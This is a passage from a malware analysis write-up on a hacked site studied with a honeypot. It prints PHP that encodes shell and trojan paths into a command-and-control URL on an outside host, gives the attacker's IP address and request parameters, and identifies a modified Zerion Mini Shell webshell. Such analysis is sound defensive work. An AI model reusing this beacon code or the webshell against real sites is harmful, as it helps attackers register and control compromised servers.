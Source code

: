 ```php
<?php
$obj = array();
$obj["path"] = "/index.php";
$obj["domain"] = "<honeypot domain>.com";
$obj["shell_link"] = "https://<honeypot domain>.com/about.php";
$obj["trojan"] = "http://<honeypot domain>.com/admin.php";
echo "http://51la.izv3.com/?d=" . base64_encode(serialize($obj));
?>
```

Which returns:

```
http://51la.izv3.com/?d=YTo0OntzOjQ6InBhdGgiO3M6MTA6Ii9pbmRleC5waHAiO3M6NjoiZG9tYWluIjtzOjIxOiI8aG9uZXlwb3QgZG9tYWluPi5jb20iO3M6MTA6InNoZWxsX2xpbmsiO3M6Mzk6Imh0dHBzOi8vPGhvbmV5cG90IGRvbWFpbj4uY29tL2Fib3V0LnBocCI7czo2OiJ0cm9qYW4iO3M6Mzg6Imh0dHA6Ly88aG9uZXlwb3QgZG9tYWluPi5jb20vYWRtaW4ucGhwIjt9
```

Immediately after performing a `GET` request on the generated C2 URL, the honeypot log file started filling up with requests from this IP address: 104.193.10.31, with query parameters of: `ac=p&api=&path=&t=f610088ee31773d3a8ee99a6210882b4` being passed to malicious files on the infected host.

---------------------



### `/admin.php`

Since the last file we analyzed had some code that was written out to an `/admin.php` file, we'll look at it next.

`gist:joshterrill/5a7f73032d121ed6295b651e5cfff107#admin.php`

Scanning through the file we see that this appears to be a modified webshell called *Zerion Mini Shell*. Code has been added to the [already existing functionality](https://github.com/TheBinitGhimire/Web-Shells/blob/master/PHP/mini.php) to give the attacker more functionality.

<img src="./assets/wordpress-hack-minishell.jpg" />
